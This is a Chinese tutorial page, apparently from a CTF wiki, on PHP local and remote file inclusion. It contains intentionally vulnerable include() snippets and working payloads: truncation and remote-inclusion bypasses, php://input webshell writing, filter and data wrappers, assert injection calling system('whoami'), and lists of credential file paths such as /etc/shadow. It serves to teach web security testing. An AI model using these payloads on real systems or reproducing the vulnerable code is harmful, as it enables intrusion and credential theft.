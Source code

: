 文件包含
========================================

基础
----------------------------------------
文件包含函数加载的参数没有经过过滤或者严格的定义，可以被用户控制，包含其他恶意文件，导致了执行了非预期的代码。

::

	<?php
	    $filename  = $_GET['filename'];
	    include($filename);
	?>

例如：
$_GET['filename']参数开发者没有经过严格的过滤，直接带入了include的函数，攻击者可以修改$_GET['filename']的值，执行非预期的操作。

触发Sink
----------------------------------------
- PHP文件包含函数有以下四种
    - include
        - 在包含过程中出错会报错，不影响执行后续语句
    - include_once
        - 仅包含一次
    - require
        - 在包含过程中出错，就会直接退出，不执行后续语句
    - require_once

本地文件包含漏洞
----------------------------------------
- 无限制本地文件包含漏洞
- session文件包含漏洞
	利用条件：session的存储位置可以获取。(phpinfo()或猜测,如linux下默认存储在/var/lib/php/session目录下)
	示例：
	::

		<?php
		    session_start();
		    $ctfs=$_GET['ctfs'];
		    $_SESSION["username"]=$ctfs;
		?>

	漏洞分析:
	::

		此php会将获取到的GET型ctfs变量的值存入到session中。
		当访问http://www.ctfs-wiki/session.php?ctfs=ctfs 后，会在/var/lib/php/session
		目录下存储session的值。
		session的文件名为sess_+sessionid，sessionid可以通过开发者模式获取。

	|fileincludesessionid|

	所以session的文件名为sess_akp79gfiedh13ho11i6f3sm6s6。
	服务器的/var/lib/php/session目录下此文件内容为：
	::

		username|s:4:"ctfs";
		[root@c21336db44d2 session]# cat sess_akp79gfiedh13ho11i6f3sm6s6
		username|s:4:"ctfs"

	漏洞利用:

	::

		通过上面的分析，可以知道ctfs传入的值会存储到session文件中，如果存在本地文件包含漏洞，就可以通过
		ctfs写入恶意代码到session文件中，然后通过文件包含漏洞执行此恶意代码getshell。
		当访问http://www.ctfs-wiki/session.php?ctfs=<?php phpinfo();?>后，会在/var/lib/php/session目录下
		存储session的值。

- 有限制本地文件包含漏洞绕过
	- %00截断
		测试代码：
		::

			<?php
			    $filename  = $_GET['filename'];
			    include($filename . ".html");
			?>

          ``http://www.ctfs-wiki.com/FI/FI.php?filename=../../../../../../../boot.ini%00`` 

	- 路径长度截断
		条件：windows OS，点号需要长于256；linux OS 长于4096
		::

			Windows下目录最大长度为256字节，超出的部分会被丢弃；
			Linux下目录最大长度为4096字节，超出的部分会被丢弃。

		测试代码：
		::

			<?php
			    $filename  = $_GET['filename'];
			    include($filename . ".html");
			?>

		EXP:
		::

			http://www.ctfs-wiki.com/FI/FI.php?filename=test.txt/./././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././/././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././/././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././/././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././/./././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././

	- 点号截断
		条件：windows OS，点号需要长于256

		测试代码：
		::

			<?php
			    $filename  = $_GET['filename'];
			    include($filename . ".html");
			?>

		EXP:
		::

			http://www.ctfs-wiki.com/FI/FI.php?filename=test.txt.................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................



远程文件包含漏洞
----------------------------------------
PHP的配置文件allow_url_fopen和allow_url_include设置为ON，include/require等包含函数可以加载远程文件，
如果远程文件没经过严格的过滤，导致了执行恶意文件的代码，这就是远程文件包含漏洞。

- 无限制远程文件包含漏洞
- 有限制远程文件包含漏洞绕过
	- 问号绕过
		 ``<?php include($_GET['filename'] . ".html"); ?>`` 代码中多添加了html后缀，导致远程包含的文件也会多一个html后缀，问号绕过如下：
		 ``http://www.ctfs-wiki.com/FI/WFI.php?filename=http://192.168.91.133/FI/php.txt?`` 
	- #号绕过
		 ``http://www.ctfs-wiki.com/FI/WFI.php?filename=http://192.168.91.133/FI/php.txt%23`` 
	- 空格绕过
		 ``http://www.ctfs-wiki.com/FI/WFI.php?filename=http://192.168.91.133/FI/php.txt%20`` 

url编码绕过
----------------------------------------
如果WAF中是字符串匹配，可以使用url多次编码的方式可以绕过。

伪协议绕过
----------------------------------------
- PHP input: 把payload放在POST参数中作为包含的文件，要求 ``allow_url_include=On`` ，payload为 ``?file=php://input`` 的形式
	- 命令执行
		|fileincludecommand|
	- 写入webshell
		条件：php配置文件中需同时开启 allow_url_fopen 和 allow_url_include（PHP < 5.3.0）,就可以造成任意代码执行，在这可以理解成远程文件包含漏洞（RFI），即POST过去PHP代码，即可执行。如果POST的数据是执行写入一句话木马的PHP代码，就会在当前目录下写入一个木马。
		|fileincludemuma|
- Base64伪协议读取文件
	payload为 ``?file=php://filter/convert.base64-encode/resource=index.php`` 
- data伪协议读取文件内容
	payload为 ``?file=data://text/plain;base64,SSBsb3ZlIFBIUAo=`` 的形式，要求 ``allow_url_include=On``
	
assert
-----------------------------------------
- ``assert("strpos('$file', '..') === false") or die("Detected hacking attempt!");``
- ``' and die(show_source('/etc/passwd')) or '``
- ``' and die(system("whoami")) or '``
- ``assert("strpos('' and die(system("whoami")) or '', '..') === false") or die("Detected hacking attempt!");``

常见的敏感信息路径：
----------------------------------------
Windows系统

::

	c:\boot.ini // 查看系统版本
	c:\windows\system32\inetsrv\MetaBase.xml // IIS配置文件
	c:\windows\repair\sam // 存储Windows系统初次安装的密码
	c:\ProgramFiles\mysql\my.ini // MySQL配置
	c:\ProgramFiles\mysql\data\mysql\user.MYD // MySQL root密码
	c:\windows\php.ini // php 配置信息
	
payload:https://github.com/xmendez/wfuzz/blob/master/wordlist/vulns/dirTraversal-win.txt

Linux/Unix系统

::

	/etc/passwd 	//账户信息
	/etc/shadow 	//账户密码文件
	/usr/local/app/apache2/conf/httpd.conf	//Apache2默认配置文件
	/usr/local/app/apache2/conf/extra/httpd-vhost.conf	//虚拟网站配置
	/usr/local/app/php5/lib/php.ini		//PHP相关配置
	/etc/httpd/conf/httpd.conf 		//Apache配置文件
	/etc/my.conf 		//mysql配置文件
	/etc/hostname		//获取主机名
	/etc/httpd/logs/access_log		//apache配置log
	/etc/httpd/logs/error_log		//apache配置log
	.htaccess		//文件中的配置指令作用于.htaccess文件所在的目录及其所有子目录
	.htpasswd		//HTTP用户的basic认证密码文件，一般在/var/www(/mysite)/.htpasswd

payload:https://github.com/xmendez/wfuzz/blob/master/wordlist/vulns/dirTraversal-nix.txt

参考链接
----------------------------------------
- `Exploit with PHP Protocols <https://www.cdxy.me/?p=752>`_
- `lfi cheat sheet <https://highon.coffee/blog/lfi-cheat-sheet/>`_

.. |fileincludesessionid| image:: ../images/fileincludesessionid.jpg
.. |fileincludemuma| image:: ../images/fileincludemuma.jpg
.. |fileincludecommand| image:: ../images/fileincludecommand.jpg